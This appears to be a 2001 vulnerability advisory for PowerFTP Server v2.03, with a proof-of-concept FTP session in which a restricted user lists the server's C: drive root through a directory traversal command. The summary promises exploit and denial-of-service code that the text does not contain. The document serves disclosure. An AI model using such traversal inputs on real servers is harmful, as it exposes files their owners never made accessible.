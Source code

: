 INFO
----

    ------oOo------
    PowerFTP Server data revealing sensitive on DRIVES remotes
    and Denial of Service Vulnerability (Released exploits Codes).
    ------oOo------

    PowerFTPServer for Windows 9x/NT/2000 contains remote vulnerabilities
    which allow users to see and retrieve any file on the server.
    Exploit information included.

    Company Affected: www.CooolSoft.com
    Version: v2.03
    Date Added: 08-28-01
    Size: 1.83 MB
    OS Affected: Windows 95/98/NT/2000

    Author:

    ** Alex Hernandez <al3xhernandez@ureach.com>
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins
    ** G.Maggiotti & H.Oliveira.

    ----=[Brief Description]=------------

    PowerFTP Server is an FTP server for Windows 9x/NT/2000.
    A bug  allows  any user to change to any directory and see
    files to PATH also GET files remotely.

    ----=[Summary]=----------------------

    PowerFTP is a powerful FTP client/server software. The feature of
    PowerFTP is the function of multiple thread downloading and uploading.
    it can even split one big file into several parts, and it can make
    your computer as a standard FTP server but exist a big HOLES:

    1) Reveling data sensitive REMOTE with account restricted on Drives
       CDROM. Floppy and HDD Proof of concept.
    2) Exploit code data revealing (Remote).
    3) Remote DoS proof of concept.
    4) Exploit code DoS (Remote).
    5) Exploit code DoS attack Floppy Drive (Remote).

    ------oOo------
    Proof of concept

    # uname -a
    SunOS Lab 5.8 Generic_108528-03 sun4u sparc SUNW,Ultra-5_10
    #

    # ftp 10.0.0.1
    Connected to 10.0.0.1.
    220 Personal FTP Server ready
    Name (10.0.0.1:root): temp
    331 Password required for temp.
    Password:
    230 User temp logged in.
    ftp>
    ftp> pwd
    257 "C:/WINDOWS/Application Data/Microsoft/Internet Explorer/Quick
    Launch/Mis documentos/tools/" is current directory.

    ftp> cd .../.../
    501 CWD failed. Cannot accept relative path using dot notation
    ftp>

    ------oOo------
    (1) Reveling Data C:\ Drive, floppy A:\ and CDROM, if u run something,
    in this case exist a CD installation ENCARTA 2001 in Spanish u
    can see all the files.
    ------oOo------

    ftp> ls ../../../../../../../
    200 Port command successful.
    150 Opening data connection for directory list.
    SUHDLOG.DAT
    COMMAND.COM
    BOOTLOG.PRV
    FRUNLOG.TXT
    DOS
    AUTOEXEC.DOS
    CONFIG.DOS
    VIDEOROM.BIN
    CONFIG.SYS
    DBLSPACE.BIN
    MSDOS.SYS
    MSDOS.---
    SETUPLOG.TXT
    WINDOWS
    test.txt.txt
    #
    226 File sent ok
    remote: ../../../../../../../
    561 bytes received in 0.12 seconds (4.61 Kbytes/s)
    ftp>

    ------oOo------------------------------------
    Vendor Response:
    The vendor was notified
    Support@cooolsoft.com
    http://www.cooolsoft.com
    Patch Temporary: Restricted files and Directories.

    Alex Hernandez <al3xhernandez@ureach.com> (c) 2001.

    ------oOo------------------------------------